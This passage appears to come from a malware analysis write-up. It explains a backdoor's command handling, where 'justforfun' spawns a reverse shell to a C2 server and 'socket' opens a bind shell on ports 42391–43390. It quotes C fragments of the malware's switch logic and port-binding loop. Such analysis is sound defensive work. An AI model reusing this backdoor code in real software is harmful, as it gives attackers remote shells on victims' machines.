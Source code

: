 If the transmitted value is **"justforfun"**, the malware establishes a TCP reverse shell to connect back to the C2 server.

- The function `try_link()` returns a TCP client socket object, which is stored in the variable `scli`.

- This `scli` object is then passed as an argument to the `shell()` function.

If the transmitted value is **"socket"**, the malware sets up a bind shell server, listening for incoming connections.

- The function `getshell()` calls another function `b()`, which returns a TCP listening socket (bind server).

- The resulting socket is stored in the variable `sockfd`, which is then passed as an argument to the `shell()` function.

In summary, the command structure of this malware operates as follows:
- `justforfun` command → Spawns a **reverse shell**
- `socket` command → Spawns a **bind shell**

```c
cmp = logon(mp->pass); // Check the command
switch(cmp) {
    case 1:
        strcpy(sip, inet_ntoa(ip->ip_src));
        getshell(sip, ntohs(tcp->th_dport));
        break;
    case 0:
        scli = try_link(bip, mp->port);
        if (scli > 0)
                shell(scli, NULL, NULL);
        break;
    case 2:
        mon(bip, mp->port);
        break;
}
```

### Port Range

When spawning a bind shell, the malware selects a random port within the range **42391** to **43390**.

```c
for (port = 42391; port < 43391; port++) { // 42391 - 43390
    my_addr.sin_port = htons(port);
    if( bind(sock_fd,(struct sockaddr *)&my_addr,sizeof(struct sockaddr)) == -1 ){
        continue;
    }
    if( listen(sock_fd,1) == 0 ) {
        *p = port;
        return sock_fd;
    }
    close(sock_fd);
}
return -1;
```